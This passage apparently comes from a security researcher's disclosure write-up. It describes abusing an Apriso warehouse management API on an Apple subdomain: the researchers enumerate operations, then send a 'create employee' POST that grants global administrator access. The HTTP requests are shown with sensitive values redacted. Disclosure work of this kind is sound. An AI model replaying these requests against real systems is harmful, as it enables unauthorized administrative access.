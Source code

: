 ```html
GET /Apriso/HttpServices/api/platform/1/Operations/operation HTTP/1.1
Host: colormasters.apple.com

<!-- With the following HTTP response: -->

    {
      "InputTypes": {
        "OrderNo": "Char",
        "OrderType": "Integer",
        "OprSequenceNo": "Char",
        "Comments": "Char",
        "strStatus": "Char",
        "UserName": "Char"
      },
      "OutputTypes": {},
      "OperationCode": "APL_Redacted",
      "OperationRevision": "APL.I.1.4"
    }

<!-- to actually call the API, send a POST request with JSON data in the following format: -->

    {
      "inputs": {
        "param": "value"
      }
    }
```

The "create employee" function required various parameters that relied on UUIDs
- but we were able to retrieve these via the other "Operations" and fill them in as we went along.
- formed the following API request
- After we sent this API call, we could now authenticate as a global administrator to the application. 
- This gave us full oversight to the warehouse management software and probably RCE via some accepted functionality.


```html
    POST /Apriso/HttpServices/api/platform/1/Operations/redacted HTTP/1.1
    Host: colormasters.apple.com
    Authorization: Bearer redacted
    Connection: close
    Content-Type: application/json
    Content-Length: 380
    {
      "inputs": {
        "Name": "Samuel Curry",
        "EmployeeNo": "redacted",
        "LoginName": "yourloginname123",
        "Password": "yourpassword123",
        "LanguageID": "redacted",
        "AddressID": "redacted",
        "ContactID": "redacted",
        "DefaultFacility": "redacted",
        "Department": "",
        "DefaultMenuItemID": "redacted",
        "RoleName": "redacted",
        "WorkCenter": ""
      }
    }
```
